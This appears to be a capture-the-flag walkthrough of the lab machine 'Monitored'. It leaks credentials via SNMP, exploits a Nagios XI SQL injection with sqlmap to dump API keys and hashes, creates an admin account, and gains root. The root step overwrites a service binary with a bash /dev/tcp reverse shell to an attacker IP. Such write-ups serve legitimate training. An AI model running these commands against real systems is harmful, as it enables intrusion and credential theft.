

# [](#intro)Introduction

In today's post, we will be solving Season's 4 second machine, Monitored. This is a medium difficulty machine full of rabbit
holes, so we need to pay attention to its environment in order to solve it. Let's jump right into it!

# [](#approach)Approach mindset

For our approach mindset, we shall separate it as the following steps:

1. Reconnaissance
2. Getting foothold
3. System enumeration
4. Privilege escalation


## [](#step1-recon)Step 1 - Reconnaissance

We start by enumerating the system's ports in order to get a feeling of what is running:

```bash
$ nmap -p- -T4 --min-rate 1000 -A -oN ports.nmap 10.129.37.231
Nmap scan report for 10.129.37.231
Host is up (0.13s latency).
Not shown: 65530 closed tcp ports (reset)
PORT     STATE SERVICE    VERSION
22/tcp   open  ssh        OpenSSH 8.4p1 Debian 5+deb11u3 (protocol 2.0)
| ssh-hostkey: 
|   3072 61:e2:e7:b4:1b:5d:46:dc:3b:2f:91:38:e6:6d:c5:ff (RSA)
|   256 29:73:c5:a5:8d:aa:3f:60:a9:4a:a3:e5:9f:67:5c:93 (ECDSA)
|_  256 6d:7a:f9:eb:8e:45:c2:02:6a:d5:8d:4d:b3:a3:37:6f (ED25519)
80/tcp   open  http       Apache httpd 2.4.56
|_http-server-header: Apache/2.4.56 (Debian)
|_http-title: Did not follow redirect to https://nagios.monitored.htb/
389/tcp  open  ldap       OpenLDAP 2.2.X - 2.3.X
443/tcp  open  ssl/http   Apache httpd 2.4.56 ((Debian))
| ssl-cert: Subject: commonName=nagios.monitored.htb/organizationName=Monitored/stateOrProvinceName=Dorset/countryName=UK
| Not valid before: 2023-11-11T21:46:55
|_Not valid after:  2297-08-25T21:46:55
| tls-alpn: 
|_  http/1.1
|_http-server-header: Apache/2.4.56 (Debian)
|_ssl-date: TLS randomness does not represent time
|_http-title: Nagios XI
5667/tcp open  tcpwrapped
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.94%E=4%D=1/15%OT=22%CT=1%CU=30330%PV=Y%DS=2%DC=T%G=Y%TM=65A56AA
OS:8%P=x86_64-pc-linux-gnu)SEQ(SP=102%GCD=1%ISR=108%TI=Z%CI=Z%II=I%TS=9)SEQ
OS:(SP=102%GCD=1%ISR=108%TI=Z%CI=Z%II=I%TS=A)OPS(O1=M53CST11NW7%O2=M53CST11
OS:NW7%O3=M53CNNT11NW7%O4=M53CST11NW7%O5=M53CST11NW7%O6=M53CST11)WIN(W1=FE8
OS:8%W2=FE88%W3=FE88%W4=FE88%W5=FE88%W6=FE88)ECN(R=Y%DF=Y%T=40%W=FAF0%O=M53
OS:CNNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS%RD=0%Q=)T2(R=N)T3(R=N)T4(
OS:R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F
OS:=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T
OS:=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T=40%IPL=164%UN=0%RIPL=G%RI
OS:D=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD=S)

Network Distance: 2 hops
Service Info: Host: nagios.monitored.htb; OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 80/tcp)
HOP RTT       ADDRESS
1   131.38 ms 10.10.14.1
2   131.45 ms 10.129.37.231

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Mon Jan 15 17:26:00 2024 -- 1 IP address (1 host up) scanned in 115.23 seconds
```

From this, we find a bunch of services, but none of them are very interesting besides the web page. To access the web service,
we need to add the line `<machine-ip> nagios.monitored.htb` to `/etc/hosts`. After that, we can access it with our browser:


If we click on "Access Nagios", we will be brought to a login page, at `/nagiosxi/login.php`. I've tried to brute-force it and
send send SQL injection payloads, but with no success. We know that this service is called Nagios XI, so my next step was to
look for common vulnerabilities revolving around this service. Upon a quick search, we find [this](https://outpost24.com/blog/nagios-xi-vulnerabilities/) blog about Nagios XI CVEs. One that stands out to me is the first one, CVE-2023-40931. It reads:

> Nagios XI features “Announcement Banners”, which can optionally be acknowledged by users. The endpoint for this feature is vulnerable to a SQL Injection attack.
>
> When a user acknowledges a banner, a POST request is sent to `/nagiosxi/admin/banner_message-ajaxhelper.php` with the POST data consisting of the intended action and message ID – `action=acknowledge banner message&id=3`.
> 
> The ID parameter is assumed to be trusted but comes directly from the client without sanitization. This leads to a SQL Injection where an authenticated user with low or no privileges can retrieve sensitive data, such as from the `xi_session` and `xi_users` table containing data such as emails, usernames, hashed passwords, API tokens, and backend tickets.

As we can see, this vulnerability only works if we have at least access to a low privileged user. We need a way in to test it. 

I've ran `ffuf -u http://nagios.monitored.htb/nagiosxi/FUZZ -w /usr/share/wordlists/dirbuster/directory-list-1.0.txt` to enumerate endpoints and this is what I've got:

```bash
help                    [Status: 301, Size: 338, Words: 20, Lines: 10, Duration: 139ms]
mobile                  [Status: 301, Size: 340, Words: 20, Lines: 10, Duration: 136ms]
images                  [Status: 301, Size: 340, Words: 20, Lines: 10, Duration: 137ms]
about                   [Status: 301, Size: 339, Words: 20, Lines: 10, Duration: 135ms]
admin                   [Status: 301, Size: 339, Words: 20, Lines: 10, Duration: 129ms]
reports                 [Status: 301, Size: 341, Words: 20, Lines: 10, Duration: 136ms]
includes                [Status: 301, Size: 342, Words: 20, Lines: 10, Duration: 130ms]
sounds                  [Status: 403, Size: 286, Words: 20, Lines: 10, Duration: 134ms]
account                 [Status: 301, Size: 341, Words: 20, Lines: 10, Duration: 136ms]
tools                   [Status: 301, Size: 339, Words: 20, Lines: 10, Duration: 132ms]
backend                 [Status: 301, Size: 341, Words: 20, Lines: 10, Duration: 136ms]
config                  [Status: 301, Size: 340, Words: 20, Lines: 10, Duration: 134ms]
views                   [Status: 301, Size: 339, Words: 20, Lines: 10, Duration: 136ms]
db                      [Status: 301, Size: 336, Words: 20, Lines: 10, Duration: 137ms]
api                     [Status: 301, Size: 337, Words: 20, Lines: 10, Duration: 134ms]
terminal                [Status: 200, Size: 5215, Words: 1247, Lines: 124, Duration: 204ms]
```

At first glance, the only interesting endpoint is `terminal`, which seems to be a terminal access to the server. 


However, this is not useful unless we have credentials to login. 

Ok, let's step back a little. We have found some interesting vectors, but we might need to 
find the credentials. According to Nagios XI documentation, the service seems to be a network monitoring system. 
With a bit of research, we find [this](https://www.nagios.com/solutions/snmp-monitoring/) page stating that Nagios XI provides complete monitoring of SNMP (Simple Network Message Protocol). SNMP runs on UDP port 161/162, and that was not shown on our first 
Nmap scan. This is because we have not specified it to perform a UDP scan. Let's re-run Nmap with that in mind now:

```bash
$ sudo nmap -sU -T4 -oN udp.nmap 10.129.37.231
Warning: 10.129.37.231 giving up on port because retransmission cap hit (6).
Nmap scan report for nagios.monitored.htb (10.129.37.231)
Host is up (0.14s latency).
Not shown: 984 closed udp ports (port-unreach)
PORT      STATE         SERVICE
68/udp    open|filtered dhcpc
123/udp   open          ntp
161/udp   open          snmp
162/udp   open|filtered snmptrap
3702/udp  open|filtered ws-discovery
16697/udp open|filtered unknown
16838/udp open|filtered unknown
17836/udp open|filtered unknown
21167/udp open|filtered unknown
34038/udp open|filtered unknown
37843/udp open|filtered unknown
40622/udp open|filtered unknown
41524/udp open|filtered unknown
43967/udp open|filtered unknown
54281/udp open|filtered unknown
65024/udp open|filtered unknown

# Nmap done at Mon Jan 15 18:09:22 2024 -- 1 IP address (1 host up) scanned in 1065.19 seconds
```

As we can see, SNMP service is running on port 161. We can refer to [this](https://book.hacktricks.xyz/network-services-pentesting/pentesting-snmp) HackTricks page about SNMP enumeration, which provides a good insight on how to use `snmpwalk`. This is what we can
run:

```bash
$ snmpwalk -v 1 -c public 10.129.37.231 system | tee snmpwalk.txt
SNMPv2-MIB::sysDescr.0 = STRING: Linux monitored 5.10.0-27-amd64 #1 SMP Debian 5.10.205-2 (2023-12-31) x86_64
SNMPv2-MIB::sysObjectID.0 = OID: NET-SNMP-MIB::netSnmpAgentOIDs.10
DISMAN-EVENT-MIB::sysUpTimeInstance = Timeticks: (313660) 0:52:16.60
SNMPv2-MIB::sysContact.0 = STRING: Me <root@monitored.htb>
SNMPv2-MIB::sysName.0 = STRING: monitored
SNMPv2-MIB::sysLocation.0 = STRING: Sitting on the Dock of the Bay
SNMPv2-MIB::sysServices.0 = INTEGER: 72
SNMPv2-MIB::sysORLastChange.0 = Timeticks: (1581) 0:00:15.81
SNMPv2-MIB::sysORID.1 = OID: SNMP-FRAMEWORK-MIB::snmpFrameworkMIBCompliance
SNMPv2-MIB::sysORID.2 = OID: SNMP-MPD-MIB::snmpMPDCompliance
SNMPv2-MIB::sysORID.3 = OID: SNMP-USER-BASED-SM-MIB::usmMIBCompliance
SNMPv2-MIB::sysORID.4 = OID: SNMPv2-MIB::snmpMIB
SNMPv2-MIB::sysORID.5 = OID: SNMP-VIEW-BASED-ACM-MIB::vacmBasicGroup
SNMPv2-MIB::sysORID.6 = OID: TCP-MIB::tcpMIB
SNMPv2-MIB::sysORID.7 = OID: UDP-MIB::udpMIB
[...snip...]
```

The output is huge and contains lots of information. After it finishes, we can use `grep` on `snmpwalk.txt` file to see
if we can find anything useful at all:

```bash
$ cat snmpwalk.txt | grep password
$ cat snmpwalk.txt | grep username
$ cat snmpwalk.txt | grep user
HOST-RESOURCES-MIB::hrSWRunParameters.840 = STRING: "-q --background=/var/run/shellinaboxd.pid -c /var/lib/shellinabox -p 7878 -u shellinabox -g shellinabox --user-css Black on Whit"
HOST-RESOURCES-MIB::hrSWRunParameters.842 = STRING: "-q --background=/var/run/shellinaboxd.pid -c /var/lib/shellinabox -p 7878 -u shellinabox -g shellinabox --user-css Black on Whit"
HOST-RESOURCES-MIB::hrSWInstalledName.1 = STRING: "adduser_3.118+deb11u1_all"
HOST-RESOURCES-MIB::hrSWInstalledName.812 = STRING: "xdg-user-dirs_0.17-2_amd64"
```

The lines in the `| grep user` command show parameters for a running service or process. In this case, they seem to be related to shellinabox, a web-based terminal emulator. We can try to identify shell usage by greping `/bin/bash`:

```bash
$ cat snmpwalk.txt | grep /bin/bash
HOST-RESOURCES-MIB::hrSWRunPath.1383 = STRING: "/bin/bash"
HOST-RESOURCES-MIB::hrSWRunParameters.588 = STRING: "-c sleep 30; sudo -u svc /bin/bash -c /opt/scripts/check_host.sh svc XjH7VCehowpR1xZB "
HOST-RESOURCES-MIB::hrSWRunParameters.1382 = STRING: "-u svc /bin/bash -c /opt/scripts/check_host.sh svc XjH7VCehowpR1xZB"
```

We can see that the STRING parameter seems to be setting a user `svc` to run the command `check_host.sh` passing the username `svc` and what it seems to be a password `XjH7VCehowpR1xZB`. We can try to login with these credentials at `/nagiosxi/login.php` 
web service endpoint, but this will give


However, if we attempt to login with the username `svc` and a wrong password, the error message is different:


Indicating that the password found on SNMP protocol is correct, but the login of `svc` is disabled (at least in this endpoint).


## [](#step3-foothold)Step 2 - Getting foothold

Back to square one, we need another way to authenticate. After reading lots of documentations, I've found that Nagios XI uses API Keys for user to perform actions within it. If that is the case, we might find a way to retrieve `svc` API key or token by authenticating somewhere else. Let's try to find an API endpoint where we can authenticate ourselves. To do that, we'll use `ffuf` again, but now at the `/nagiosxi/api` endpoint we found earlier. 

```bash
$ ffuf -u http://10.129.37.231/nagiosxi/api/FUZZ -w /usr/share/wordlists/seclists/Discovery/Web-Content/common-api-endpoints-mazen160.txt

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : https://nagios.monitored.htb/nagiosxi/api/FUZZ
 :: Wordlist         : FUZZ: /usr/share/wordlists/seclists/Discovery/Web-Content/common-api-endpoints-mazen160.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

v1                      [Status: 301, Size: 340, Words: 20, Lines: 10, Duration: 133ms]
:: Progress: [175/175] :: Job [1/1] :: 75 req/sec :: Duration: [0:00:02] :: Errors: 0 ::
```

Accessing `/nagiosxi/api/v1` gives us a message `error	"No request was made"`, indicating this is a v1 API. Now, we run `ffuf` again, but with this new endpoint:

```bash
$ ffuf -u https://nagios.monitored.htb/nagiosxi/api/v1/FUZZ -w /usr/share/wordlists/seclists/Discovery/Web-Content/common-api-endpoints-mazen160.txt

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : https://nagios.monitored.htb/nagiosxi/api/v1/FUZZ
 :: Wordlist         : FUZZ: /usr/share/wordlists/seclists/Discovery/Web-Content/common-api-endpoints-mazen160.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

authtoken               [Status: 200, Size: 32, Words: 4, Lines: 2, Duration: 262ms]
3.0                     [Status: 200, Size: 32, Words: 4, Lines: 2, Duration: 267ms]
7.0                     [Status: 200, Size: 32, Words: 4, Lines: 2, Duration: 274ms]
accounts                [Status: 200, Size: 32, Words: 4, Lines: 2, Duration: 278ms]
0                       [Status: 200, Size: 32, Words: 4, Lines: 2, Duration: 276ms]
1.0                     [Status: 200, Size: 32, Words: 4, Lines: 2, Duration: 276ms]
9                       [Status: 200, Size: 32, Words: 4, Lines: 2, Duration: 280ms]
all                     [Status: 200, Size: 32, Words: 4, Lines: 2, Duration: 297ms]
billing                 [Status: 200, Size: 32, Words: 4, Lines: 2, Duration: 293ms]
8.0                     [Status: 200, Size: 32, Words: 4, Lines: 2, Duration: 299ms]
1                       [Status: 200, Size: 32, Words: 4, Lines: 2, Duration: 248ms]
2                       [Status: 200, Size: 32, Words: 4, Lines: 2, Duration: 264ms]
bugs                    [Status: 200, Size: 32, Words: 4, Lines: 2, Duration: 240ms]
4.0                     [Status: 200, Size: 32, Words: 4, Lines: 2, Duration: 255ms]
3                       [Status: 200, Size: 32, Words: 4, Lines: 2, Duration: 257ms]
[...snip...]
```

All of them giving a 200 status code indicates the server is just sending us some messages about the request. We need more info about the messages the server is sending back to us. For that, let's run `ffuf` in silent mode and redirect the output to `api-endpoints.txt`.

```bash
$ ffuf -u https://nagios.monitored.htb/nagiosxi/api/v1/FUZZ -w /usr/share/wordlists/seclists/Discovery/Web-Content/common-api-endpoints-mazen160.txt -s > api-endpoints.txt
```

 Note that most of the messages are: `Message {"error":"No API Key provided"}`.That being noted, we will write a python script to see if there is any other messages within these:

```python
import requests
import sys
import urllib3

urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

def open_wordlist(path):
    wordlist = []
    with open(path, 'r') as file:
        for line in file:
            wordlist.append(line.strip())
    return wordlist

def main(args):
    url = args[0]
    wordlist_file = args[1]
    wordlist = open_wordlist(wordlist_file)
    for word in wordlist:
        res = requests.get(url + word, verify=False)
        if 'No API Key provided' not in res.text:
            print(f"Message {res.text} at endpoint {url+word}\n")

if __name__ == '__main__':
    argv = sys.argv
    if len(argv) != 3:
        print("Usage: fetch-req-msg.py <URL> <WORDLIST>")
        exit(0)
    main(argv[1:])
```

We are filtering it out any messages that contain `No API Key provided` string and printing the ones with a different message.

```bash
$ python fetch-req-msg.py https://nagios.monitored.htb/nagiosxi/api/v1/ api-endpoints.txt 
Message {"error":"No request was made"}
 at endpoint https://nagios.monitored.htb/nagiosxi/api/v1/0

Message {"error":"You can only use POST with authenticate."}
 at endpoint https://nagios.monitored.htb/nagiosxi/api/v1/authenticate
```

We note an authentication endpoint present that does not require an API key. After a bit of research, I've found [this](https://support.nagios.com/forum/viewtopic.php?f=16&t=58783) topic on this endpoint, where it states that we can authenticate via cURL using 
`curl -XPOST -k -L 'http://YOURXISERVER/nagiosxi/api/v1/authenticate?pretty=1' -d 'username=nagiosadmin&password=YOURPASS&valid_min=5'`. We can try to authenticate and retrieve an API key with the credentials we found using snmpwalk:

```bash
$ curl -XPOST -k -L 'https://nagios.monitored.htb/nagiosxi/api/v1/authenticate?pretty=1' -d 'username=svc&password=XjH7VCehowpR1xZB&valid_min=1000'
{
    "username": "svc",
    "user_id": "2",
    "auth_token": "080377be1a39ccd6c8126a03a3248e9046a1e6dd",
    "valid_min": 1000,
    "valid_until": "Wed, 17 Jan 2024 12:57:22 -0500"
}
```

And we have our API token! Now, we can attempt to abuse CVE-2023-40931 and try to retrieve the administrator's password or other sensitive information. Taking a look at the CVE, we see that the affected endpoint is `/nagiosxi/admin/banner_message-ajaxhelper.php` and we must send a POST request. With BurpSuite, this becomes easy:



Ok, session has timed out means we are not authenticated anymore. I've tried to pass the authentication token as an Authentication header, but that did not work. I've also tried to send it in the body of the request with the names `auth_token` and `token`, that 
did not work either. Finally, after some attempts, I've tried to change the request to a GET request, and this happened:


Alright! We are getting somewhere. I've tried a simple SQL injection in the ID parameter: `id=3'XOR(if(now()=sysdate(),sleep(5*5),0))OR'` and the response was intriguing:


Amazing! It seems we might have a SQL injection here. Let's run SQLMap to test it. One thing I noticed though is that the auth_token can only be used once per request. This means we will need a command to pass a different auth_token for every SQLMap request. To do so, we'll use this `curl -ksX POST https://nagios.monitored.htb/nagiosxi/api/v1/authenticate -d "username=svc&password=XjH7VCehowpR1xZB&valid_min=500" | awk -F'"' '{print$12}'` command to clean the output to just be the token itself, and then run SQLMap with `-T xi_users`, which is the table in Nagios XI that contains users information.

```bash
$ sqlmap -u "https://nagios.monitored.htb/nagiosxi/admin/banner_message-ajaxhelper.php?action=acknowledge_banner_message&id=3&token=`curl -ksX POST https://nagios.monitored.htb/nagiosxi/api/v1/authenticate -d "username=svc&password=XjH7VCehowpR1xZB&valid_min=500" | awk -F'"' '{print$12}'`" --level 5 --risk 3 -p id --batch -D nagiosxi --dump -T xi_users
        ___
       __H__                                                                                                             
 ___ ___[)]_____ ___ ___  {1.7.12#stable}                                                                                
|_ -| . [.]     | .'| . |                                                                                                
|___|_  [(]_|_|_|__,|  _|                                                                                                
      |_|V...       |_|   https://sqlmap.org                                                                             

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 22:38:17 /2024-01-16/

[22:38:17] [INFO] testing connection to the target URL
you have not declared cookie(s), while server wants to set its own ('nagiosxi=sncb97hqvcq...s60dv5asic'). Do you want to use those [Y/n] Y
[22:38:18] [INFO] checking if the target is protected by some kind of WAF/IPS
[22:38:18] [INFO] testing if the target URL content is stable
[22:38:19] [INFO] target URL content is stable
[22:38:20] [INFO] heuristic (basic) test shows that GET parameter 'id' might be injectable (possible DBMS: 'MySQL')
[22:38:20] [INFO] testing for SQL injection on GET parameter 'id'
it looks like the back-end DBMS is 'MySQL'. Do you want to skip test payloads specific for other DBMSes? [Y/n] Y
[22:38:20] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'
[22:38:20] [WARNING] reflective value(s) found and filtering out
[...snip...]
Database: nagiosxi
Table: xi_users
[2 entries]
+---------+---------------------+----------------------+------------------------------------------------------------------+---------+--------------------------------------------------------------+-------------+------------+------------+-------------+-------------+--------------+--------------+------------------------------------------------------------------+----------------+----------------+----------------------+
| user_id | email               | name                 | api_key                                                          | enabled | password                                                     | username    | created_by | last_login | api_enabled | last_edited | created_time | last_attempt | backend_ticket                                                   | last_edited_by | login_attempts | last_password_change |
+---------+---------------------+----------------------+------------------------------------------------------------------+---------+--------------------------------------------------------------+-------------+------------+------------+-------------+-------------+--------------+--------------+------------------------------------------------------------------+----------------+----------------+----------------------+
| 1       | admin@monitored.htb | Nagios Administrator | IudGPHd9pEKiee9MkJ7ggPD89q3YndctnPeRQOmS2PQ7QIrbJEomFVG6Eut9CHLL | 1       | $2a$10$825c1eec29c150b118fe7unSfxq80cf7tHwC0J0BG2qZiNzWRUx2C | nagiosadmin | 0          | 1701931372 | 1           | 1701427555  | 0            | 0            | IoAaeXNLvtDkH5PaGqV2XZ3vMZJLMDR0                                 | 5              | 0              | 1701427555           |
| 2       | svc@monitored.htb   | svc                  | 2huuT2u2QIPqFuJHnkPEEuibGJaJIcHCFDpDb29qSFVlbdO4HJkjfg2VpDNE3PEK | 0       | $2a$10$12edac88347093fcfd392Oun0w66aoRVCrKMPBydaUfgsgAOUHSbK | svc         | 1          | 1699724476 | 1           | 1699728200  | 1699634403   | 1705449034   | 6oWBPbarHY4vejimmu3K8tpZBNrdHpDgdUEs5P2PFZYpXSuIdrRMYgk66A0cjNjq | 1              | 8              | 1699697433           |
+---------+---------------------+----------------------+------------------------------------------------------------------+---------+--------------------------------------------------------------+-------------+------------+------------+-------------+-------------+--------------+--------------+------------------------------------------------------------------+----------------+----------------+----------------------+
```

And we found the administrator's API key and password. Using [Hash Analyzer](https://www.tunnelsup.com/hash-analyzer/) we can see that the password is using bcrypt hash. I've tried to find a match with John The Ripper, but with no success. So this got me thinking... Maybe we can use the administrator API key to create another admin account within Nagios XI, then log in with it.
Again, with a bit research, we can find [this](https://support.nagios.com/forum/viewtopic.php?f=16&t=42923) topic, where it says
we can create an accout with this cURL command `curl -XPOST "http://x.x.x.x/nagiosxi/api/v1/system/user?apikey=LTltbjobR0X3V5ViDIitYaI8hjsjoFBaOcWYukamF7oAsD8lhJRvSPWq8I3PjTf7&pretty=1" -d "username=jmcdouglas&password=test&name=Jordan%20McDouglas&email=jmcdouglas@localhost"`. However, this will create a normal user. We need an admin user. Then, I found [this](https://www.exploit-db.com/exploits/44969) on exploit-db, which is a completely different exploit, but has these lines:

```python
  def try_add_admin(key, username, passwd)
    vprint_status "STEP 3: trying to add admin user with key #{key}"
    res = send_request_cgi({
      'uri'=> "/nagiosxi/api/v1/system/user",
      'method' => 'POST',
      'ctype' => 'application/x-www-form-urlencoded',
      'vars_get' => {
        'apikey' => key,
        'pretty' => 1
      },
      'vars_post' =>{
        'username'   => username,
        'password'   => passwd,
        'name'       => rand_text_alpha(rand(5) + 5),
        'email'      =>"#{username}@localhost",
        'auth_level' =>'admin',
        'force_pw_change' => 0
      }
    })
```

Note that it tries to create/add an admin account, and it passes a parameter `auth_level=admin`. Let's combine cURL with this information and try to create this admin account:

```bash
$ curl -k -L -XPOST "https://nagios.monitored.htb/nagiosxi/api/v1/system/user?apikey=IudGPHd9pEKiee9MkJ7ggPD89q3YndctnPeRQOmS2PQ7QIrbJEomFVG6Eut9CHLL&pretty=1" -d "username=mula&password=mula&name=mula&email=mula@localhost&auth_level=admin"
{
    "success": "User account mula was added successfully!",
    "user_id": 6
}
```

And now we try to login within the browser:


Ok! Now we are inside Nagios XI and logged in as administrator:


After poking around the application and looking for its documentation, I stumbled upon [this](https://documentation.sysaid.com/docs/configure-nagios-xi-integration) topic that explains how one can add and execute commands within Nagios XI. We need to configure a new command at Configure > Core Config Manager > Commands > Add New and we are able to pass any command we like. Alright, let's pass it a reverse shell then!


To run the command, we go to Services (left panel) > Add New and inside the Check command dropdown input, we select rev_shell. Then we click on Run Check Command. Don't forget to leave your netcat listening before hitting this button!

```bash
$ nc -lnvp 4242
Connection from 10.129.37.52:54666
bash: cannot set terminal process group (14645): Inappropriate ioctl for device
bash: no job control in this shell
nagios@monitored:~$ whoami
whoami
nagios
nagios@monitored:~$ ls       
ls
cookie.txt
user.txt
nagios@monitored:~$ cat user.txt
cat user.txt
[...redacted...]
```

Granting us the user shell.

## [](#step3-crafting-the-attack)Step 3 - System enumeration

My first enumeration command was `sudo -l` and the output impressed me:

```bash
nagios@monitored:~$ sudo -l
sudo -l
Matching Defaults entries for nagios on localhost:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User nagios may run the following commands on localhost:
    (root) NOPASSWD: /etc/init.d/nagios start
    (root) NOPASSWD: /etc/init.d/nagios stop
    (root) NOPASSWD: /etc/init.d/nagios restart
    (root) NOPASSWD: /etc/init.d/nagios reload
    (root) NOPASSWD: /etc/init.d/nagios status
    (root) NOPASSWD: /etc/init.d/nagios checkconfig
    (root) NOPASSWD: /etc/init.d/npcd start
    (root) NOPASSWD: /etc/init.d/npcd stop
    (root) NOPASSWD: /etc/init.d/npcd restart
    (root) NOPASSWD: /etc/init.d/npcd reload
    (root) NOPASSWD: /etc/init.d/npcd status
    (root) NOPASSWD: /usr/bin/php
        /usr/local/nagiosxi/scripts/components/autodiscover_new.php *
    (root) NOPASSWD: /usr/bin/php /usr/local/nagiosxi/scripts/send_to_nls.php *
    (root) NOPASSWD: /usr/bin/php
        /usr/local/nagiosxi/scripts/migrate/migrate.php *
    (root) NOPASSWD: /usr/local/nagiosxi/scripts/components/getprofile.sh
    (root) NOPASSWD: /usr/local/nagiosxi/scripts/upgrade_to_latest.sh
    (root) NOPASSWD: /usr/local/nagiosxi/scripts/change_timezone.sh
    (root) NOPASSWD: /usr/local/nagiosxi/scripts/manage_services.sh *
    (root) NOPASSWD: /usr/local/nagiosxi/scripts/reset_config_perms.sh
    (root) NOPASSWD: /usr/local/nagiosxi/scripts/manage_ssl_config.sh *
    (root) NOPASSWD: /usr/local/nagiosxi/scripts/backup_xi.sh *
```

So many different possibilities here! After looking at the `.sh` files, I've found that `manage_services.sh` was used to start, stop and check status of npcd. Here's the output of npcd status:

```bash
nagios@monitored:~$ sudo /usr/local/nagiosxi/scripts/manage_services.sh status npcd
<cal/nagiosxi/scripts/manage_services.sh status npcd
● npcd.service - Nagios Process Control Daemon
     Loaded: loaded (/etc/systemd/system/npcd.service; enabled; vendor preset: enabled)
     Active: active (running) since Tue 2024-01-16 17:29:58 EST; 4h 1min ago
   Main PID: 727 (npcd)
      Tasks: 1 (limit: 4661)
     Memory: 276.0K
        CPU: 228ms
     CGroup: /system.slice/npcd.service
             └─727 /usr/local/nagios/bin/npcd -f /usr/local/nagios/etc/pnp/npcd.cfg
```

As we can see, the `npcd.service` calls `/usr/share/nagios/bin/npcd` when running, and we also have write privileges on this directory and in the file:

```bash
nagios@monitored:~$ ls -la /usr/local/nagios/bin
ls -la /usr/local/nagios/bin
total 2192
drwxr-xr-x 2 nagios nagios    4096 Nov  9 10:43 .
drwxr-xr-x 8 root   root      4096 Nov  9 10:40 ..
-rwxrwxr-- 1 nagios nagios  717648 Nov  9 10:40 nagios
-rwxrwxr-- 1 nagios nagios   43648 Nov  9 10:40 nagiostats
-rwxrwxr-- 1 nagios nagios 1043688 Nov  9 10:42 ndo.so
-rwxr-xr-x 1 root   root      1083 Nov  9 10:42 ndo-startup-hash.sh
-rwxr-xr-- 1 nagios nagios   31584 Nov  9 10:42 npcd
-rwxr-xr-- 1 nagios nagios   14552 Nov  9 10:42 npcdmod.o
-rwxr-xr-x 1 root   root    215488 Nov  9 10:43 nrpe
-rwxr-xr-x 1 root   root     10661 Nov  9 10:43 nrpe-uninstall
-rwxr-xr-x 1 root   root    142920 Nov  9 10:43 nsca
```

This means that we could erase the contents of `npcd` binary and replace it with a reverse shell. If this succeeds, we might get root.


## [](#solving) Step 4 - Privilege escalation

Let's try it out! First, we need to stop the service in order to be able to alter the file's content:

```bash
nagios@monitored:/usr/local/nagios/bin$ sudo /usr/local/nagiosxi/scripts/manage_services.sh stop npcd
<local/nagiosxi/scripts/manage_services.sh stop npcd
nagios@monitored:/usr/local/nagios/bin$ echo "" > npcd
echo "" > npcd
nagios@monitored:/usr/local/nagios/bin$ echo '#!/bin/bash' > npcd
echo '#!/bin/bash' > npcd
nagios@monitored:/usr/local/nagios/bin$ echo "bash -c 'bash -i >& /dev/tcp/10.10.14.200/9000 0>&1'" >> npcd
<ash -i >& /dev/tcp/10.10.10.10/9000 0>&1'" >> npcd
nagios@monitored:/usr/local/nagios/bin$ cat npcd
cat npcd
#!/bin/bash
bash -c 'bash -i >& /dev/tcp/10.10.10.10/9000 0>&1'
```

We successfully overwritten the npcd binary. Now, we start another netcat on port 9000 and start the service back again with `sudo /usr/local/nagiosxi/scripts/manage_services.sh start npcd` to get the root shell:


